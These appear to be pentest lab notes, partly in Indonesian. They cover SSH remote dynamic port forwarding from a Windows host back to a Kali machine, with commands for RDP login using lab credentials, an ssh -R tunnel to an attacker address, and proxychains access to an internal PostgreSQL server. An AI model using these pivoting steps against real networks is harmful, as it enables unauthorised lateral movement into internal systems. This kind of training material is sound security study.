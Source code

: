 1) On Kali Machine, start ssh service
```bash
sudo systemctl start ssh
```
2) Access Windows client via rdp or whatev
```bash
xfreerdp /v:192.168.198.64 /dynamic-resolution /u:rdp_admin  /p:P@ssw0rd! /cert:ignore +clipboard
ipconfig, cek kakinya
```
3) Locate ssh.exe on windows machine
```cmd
where ssh

>> Biasanya di sini: C:\Windows\System32\OpenSSH\ssh.exe
```
4) Check ssh.exe version. **Remote Dynamic Portforwarding di Windows cuma bisa dilakukan kalo versionnya di atas 7.6**
```cmd
ssh.exe -V
```
5) Initiate Remote Dynamic Forwarding (commandnya sama kyk yg linux)
```cmd
ssh -N -R 9998 kali@192.168.118.4 // ssh -N -R 1080 nox@192.168.45.168
```
6) On Kali Machine, dah ada 127.0.0.1:1080 apa belum
```bash
ss -ntplu
```
7) Tambahin socks proxy
```bash
socks5 127.0.0.1 9998
```
8) Sekarang kita bisa akses network within windows machinenya (kaki lainnya)
```bash
proxychains psql -h 10.4.198.215 -U postgres
\l
```

## Remote Portforwarding with Plink
